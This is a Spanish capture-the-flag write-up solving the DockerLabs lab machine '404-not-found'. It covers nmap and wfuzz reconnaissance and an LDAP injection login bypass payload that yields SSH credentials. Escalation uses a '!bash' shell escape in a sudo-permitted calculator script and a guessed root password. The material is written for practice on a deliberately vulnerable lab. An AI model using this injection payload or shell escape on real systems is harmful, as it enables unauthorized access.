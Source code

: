 Maquina `404-not-found` de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![Dock](./imagenes/dock.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sat Aug 24 15:03:05 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 59:4e:10:e2:31:bf:13:43:c9:69:9e:4f:3f:a2:95:a6 (ECDSA)
|_  256 fb:dc:ca:6e:f5:d6:5a:41:25:2b:b2:21:f1:71:16:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://404-not-found.hl/
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.12 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 24 15:03:15 2024 -- 1 IP address (1 host up) scanned in 10.07 seconds

```

Al parecer hay un dominio llamado `404-not-found.hl`, por lo que lo tenemos que agregar en `/etc/hosts` de la siguiente manera:

```css
$IP 404-not-found.hl
```

Una vez hecho esto continuaremos por el navegador ya que el escaneo no nos dice mas nada.

### PUERTO 80

![80](./imagenes/80.png)

Luego de revisar un rato y usar gobuster no encontré nada mas que una "clave" en `/participar.html`;que realmente era un mensaje en base64 que dice *"Que haces?, mira en la URL."*. Según el mensaje dice que tenemos que mirar la URL, por lo que podriamos intentar buscar *subdominios* con wfuzz de la siguiente manera:

```css
wfuzz --hl 9 -w <WORDLIST> -u "http://404-not-found.hl" -H "Host: FUZZ.404-not-found.hl"
```

```css
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://404-not-found.hl/
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================
000000085:   200        149 L    152 W      2023 Ch     "info"
```

como vemos, hay un *subdominio* "info" en el cual lo agregamos al `/etc/hosts` de la siguiente manera:

```css
$IP 404-not-found.hl info.404-not-found.hl
```

Esto para que podamos entrar desde el navegador.

Una vez que entramos a `info.404-not-found.hl` vemos lo siguiente:
![info](./imagenes/info.png)

Luego de revisar un poco el codigo fuente, se ve en el final lo siguiente:

```css
<!-- I believe this login works with LDAP -->
```

Por lo que si buscamos `LDAP injection`, podemos probar si alguno de la página funciona(en mi caso me funcionó esta [página](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md) con `admin*)(uid=*))(|(uid=*`). Una vez probado estaremos dentro y nos da un usuario y contraseña del ssh:

![credenciales](./imagenes/credenciales.png)

# INTRUSION

Ahora nos conectamos mediante ssh con las credenciales que tenemos y listo. *ya estamos dentro*

# ESCALADA DE PRIVILEGIOS

### 404-page

Una vez dentro podemos probar un `sudo -l` y vemos lo siguiente:

```css
(200-ok : 200-ok) /home/404-page/calculator.py
```

Intentamos leerlo sin exito pero al ejecutarlo tampoco se ve nada que podamos aprovechar. Ahora intentaremos buscar si hay algún mensaje en un ".txt" ejecutando:

```css
find / -name "*.txt" 2>/dev/null
```

```css
/usr/lib/python3/dist-packages/dbus_python-1.3.2.egg-info/dependency_links.txt
/usr/lib/python3/dist-packages/dbus_python-1.3.2.egg-info/top_level.txt
/usr/lib/python3/dist-packages/distro-1.9.0.dist-info/entry_points.txt
/usr/lib/python3/dist-packages/distro-1.9.0.dist-info/top_level.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/dependency_links.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/entry_points.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/requires.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/top_level.txt
/usr/lib/python3.12/LICENSE.txt
/usr/share/perl/5.38.2/Unicode/Collate/allkeys.txt
/usr/share/perl/5.38.2/Unicode/Collate/keys.txt
/usr/share/perl/5.38.2/unicore/Blocks.txt
/usr/share/perl/5.38.2/unicore/NamedSequences.txt
/usr/share/perl/5.38.2/unicore/SpecialCasing.txt
/var/www/nota.txt
```

Como vemos si hay una nota, y al leerla nos dice *"En la calculadora no sé para qué se usa el símbolo "!" seguido de algo más, sólo 200-ok lo sabe."*. Sabiendo esto podriamos intentar ejecutar la calculadora nuevamente con `sudo -u 200-ok /home/404-page/calculator.py` pero en vez de poner numeros, ponemos `!bash` y ya escalamos de usuario.

### 200-ok

Nuevamente intentamos ejecutar `sudo -l` pero como no tenemos la contraseña descartamos la opción.

Al irnos a nuestra home vemos una flag y un archivo llamado "boss.txt" que dice *"¿Qué es rooteable?"*, podemos intentar usar *"rooteable"* como contraseña para root, por lo que ejecutamos `su root` y ponemos la contraseña y listo, *ya somos root*.

![root](./imagenes/root.png)

Adiós.